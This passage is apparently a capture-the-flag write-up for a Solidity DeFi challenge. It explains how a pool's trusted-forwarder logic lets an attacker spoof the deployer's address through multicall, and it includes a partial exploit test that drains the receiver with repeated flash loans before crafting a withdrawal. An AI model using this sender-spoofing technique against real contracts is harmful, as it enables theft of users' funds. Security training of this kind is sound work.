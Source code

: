 
2.	Exploiting the Withdrawal Mechanism to Drain the Pool:

The next step involves leveraging the withdraw(uint256 amount, address payable receiver) function in the pool contract:

```solidity
function withdraw(uint256 amount, address payable receiver) external {
    deposits[_msgSender()] -= amount;
    totalDeposits -= amount;
    weth.transfer(receiver, amount);
}
```

The key vulnerability here is that this function lacks any significant access control checks. The msg.sender is determined by this function:

```solidity
function _msgSender() internal view override returns (address) {
    if (msg.sender == trustedForwarder && msg.data.length >= 20) {
        return address(bytes20(msg.data[msg.data.length - 20:]));
    } else {
        return super._msgSender();
    }
}
```

When the trustedForwarder is used, the pool interprets the last 20 bytes of the transaction data as the address of the caller. By encoding the function call to withdraw and appending the deployer’s address as the last 20 bytes, we can trick the pool into thinking the deployer initiated the withdrawal.

But there is a small problem in the execute function in the forwarder which appends the from address to the payload:


```solidity 
bytes memory payload = abi.encodePacked(request.data, request.from);
```

We can avoid this extra check by wrapping the payload in a call to multicall, which will prevent the pool from appending the deployer’s address again, thus allowing us to successfully withdraw the funds.



<details>
  <summary> Code </summary>

  ```solidity
function test_naiveReceiver() public checkSolvedByPlayer {
    bytes memory flashLoanCallData = abi.encodeWithSignature(
        "flashLoan(address,address,uint256,bytes)",
            address(receiver),
            address(weth),
            WETH_IN_RECEIVER,
            bytes("")
        );
    bytes[] memory dataArray = new bytes[](10);
    for (uint256 i = 0; i < 10; i++) {
        dataArray[i] = flashLoanCallData;
    }
    pool.multicall(dataArray);  
 
 
    bytes memory WithdrawCallData = abi.encodeWithSignature(
            "withdraw(uint256,address)",
            WETH_IN_POOL + WETH_IN_RECEIVER,
            recovery
    );  
    bytes memory deployerBytes = abi.encodePacked(deployer);
  ```